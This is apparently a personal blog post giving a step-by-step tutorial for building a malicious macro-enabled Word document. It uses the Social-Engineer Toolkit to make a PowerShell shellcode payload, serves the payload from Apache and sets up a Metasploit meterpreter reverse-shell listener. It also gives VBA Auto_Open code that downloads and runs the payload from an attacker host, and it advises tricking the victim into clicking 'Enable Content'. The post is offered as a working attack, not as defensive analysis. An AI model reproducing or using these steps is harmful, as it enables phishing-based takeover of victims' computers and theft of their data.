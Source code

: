 ```yaml
---
title: MS Word Macro Exploit
date: 2016-05-23T18:54:00+00:00
author: gerryw1389
layout: single
classes: wide
permalink: /2016/05/ms-word-macro-exploit/
tags:
  - LocalSoftware
  - Security
tags:
  - MSOffice
---
```

<!--more-->

### Description:

The following is an article I read on generating an exploit for MS Word and using it to attack a LAN user.

What you will need:  
Microsoft Word  
The Social-Engineer Toolkit (preinstalled on Kali)  
Apache web server (preinstalled on Kali)  
The Metasploit Framework (also preinstalled on Kali)

### To Resolve:

1. Create the payload. On Kali, open terminal and type: `setoolkit`

2. Type `1` then `9` then `1` for `powershell alphanumeric shellcode injector`.

3. Fill in the `LHOST` variable which is your IP. This attack assumes you are on the local subnet of your victim. Then fill out the `LPORT` which is the port you want the attack to come back on. People typically keep this at `4444` but you can choose whatever. Type `no` to the start listener now.

4. Now move the payload to your web server:

   ```shell
   mv /root/.set/reports/powershell/x86\_powershell\_injection.txt /var/www/html/payload.txt  
   service apache2 start
   ```

5. Now we setup the listener:

   ```shell
   msfconsole  
   use multi/handler

   set PAYLOAD windows/meterpreter/reverse_tcp  
   set LHOST 10.10.10.200  
   set LPORT 4444  
   exploit
   ```

6. Now we need to add the command to our MS Word document:

   - Open up a blank MS Word doc and name is something like attack.docm and make sure that it is macro-enabled.

   - Go to the "View" tab => Macros => "Auto_Open" / attack.docm => Create => (paste in the following:)

   ```escape
   Sub Auto_Open()  
   Dim exec As String  
   exec = "powershell.exe ""IEX ((new-object net.webclient).downloadstring('http://10.0.0.13/payload.txt'))"""  
   Shell (exec)  
   End Sub  
   Sub AutoOpen()  
   Auto_Open  
   End Sub  
   Sub Workbook_Open()
   ```

   - At this point, you may want to obfuscate the code, but many people don't even know how to get to the macro's section of Word, much less what macro's even are so we will skip this step. If you want to know, read the article in the reference (the source).

   - Save the document

7. Now we need to convince the victim that the document is safe. The article references word trickery such as `to open the secure document, click "Enable Content"`.

### References:

["Create & Obfuscate a Virus Inside of a Microsoft Word Document"](https://null-byte.wonderhowto.com/how-to/create-obfuscate-virus-inside-microsoft-word-document-0167780)